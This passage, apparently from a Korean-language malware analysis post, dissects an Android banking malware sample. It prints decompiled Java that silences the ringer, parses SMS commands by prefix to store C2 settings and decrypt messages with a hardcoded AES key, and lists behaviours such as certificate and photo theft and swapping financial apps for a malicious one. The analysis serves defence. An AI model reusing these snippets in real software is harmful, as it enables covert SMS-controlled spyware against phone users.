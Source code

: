 이후 공격자는 audio 상태를 무음으로 변경합니다. 만약 기기를 자주 살펴보지 않는 사용자라면, 본인도 모르는 사이에 문자가 발신/수신 될 수 있습니다.

```java
Object v0_13 = v2.getSystemService("audio");
if(v0_13 != null) {
  ((AudioManager)v0_13).setRingerMode(0);
```

수신하는 경우의 로직도 존재합니다. 특이한 점은 수신한 문자의 앞 두글자에 따라 다른 동작을 한다는 것입니다. 마치 기계에 커맨드를 입력하는 것 같습니다.

맨 앞 두 글자에 따라 SharedPreference 객체에 key-value로 값을 저장하는 형태를 많이 보입니다.

```java
// 1. 앞 글자가 FS인 경우, fs(key)-메시지내용(value) 추가
if(boolean z2 = u.g(s12, "FS", false, 2, null)) {
Loader.access$getPreferences$p(this.a).edit().putString("fs", r.c(s13))).apply()

// 2. 앞 글자가 SF인 경우, account(key)-메시지내용(value) 추가
if(u.g(s12, "SF", false, 2, null)) {
Loader.access$getPreferences$p(this.a).edit().putString("account", s14).apply();

// 3. 앞 글자가 IF인 경우, 네트워크(socket등)연결 시도
if(u.g(s12, "IF", false, 2, null)) {

	// 3-1. 연결 되었을 경우
	i.c(socket1, "peer.ws!!.socket");
	s15 = "已连接:" + socket1.getRemoteSocketAddress().toString();

	// 3-2. 연결되지 않았을 경우
	s15 = "未连接," + s16 + ',' + (wifiManager0 == null ? false : wifiManager0.isWifiEnabled()) + ',' + this.a.j;

// 4. 앞 긑자리 SI인 경우, addr_url/addr_encoding/addr_pattern/addr_accounts 추가
if(boolean z3 = u.g(s12, "SI", false, 2, null)) {
byte[] arr_b = Base64.decode(s13, 0);
Loader.access$getPreferences$p(this.a).edit().putString("addr_url", ((String)list0.get(0))).putString("addr_encoding", ((String)list0.get(1))).putString("addr_pattern", ((String)list0.get(2))).putString("addr_accounts", ((String)list0.get(3))).apply();

// 5. 앞 글자리 FM인 경우, Key(arr_b1)으로 AES 복호화 후 fsm(key)-메시지내용(value) 추가
else if(u.g(s12, "FM", false, 2, null)) {
byte[] arr_b1 = Base64.decode("CpMSc7iSk/dTcRO7aMe4qA==", 0);
Loader.access$getPreferences$p(this.a).edit().putString("fsm", s18)
```

어떤 내용이 오가는지 정확한 내용은 몰라도, 어느 정도 유추는 가능하며 사용자의 기기로 하여금 악의적인 행위를 수행하도록 하는 것을 볼 수 있습니다.

---

**⑦ 기타 생략 동작**

- 앱 정보 수집
    - 설치된 앱들의 정보를 수집합니다.
- 공인인증서 탈취
    - `/sdcard/NAKI` 에 저장된 공인인증서를 탈취합니다.
- 배터리 최적화 무시
    - 백그라운드에서도 안정적으로 실행되기 위해, 배터리 최적화를 무시하도록 합니다.
- wifi lock 설정
    - 연결된 WIFI Lock을 `Swi` 라는 이름으로 생성, 백그라운드에서도 연락이 이어지게 끔 동작합니다.
- 사용자 주변 네트워크, 기기 정보 전송
    - 사용자의 네트워크와 디바이스 정보를 SharedPreference에 저장합니다.
- 루팅 탐지
    - 루팅 여부를 탐지합니다.
- 금융 앱 관련
    - 금융 앱 대신 `/sdcard/.upload2` 하위의 악성 앱을 실행합니다.
- 사진 탈취
    - `/DCIM/Camera` 에 위치한 사진 파일들을 탈취합니다.
- C2 서버로부터 command 수신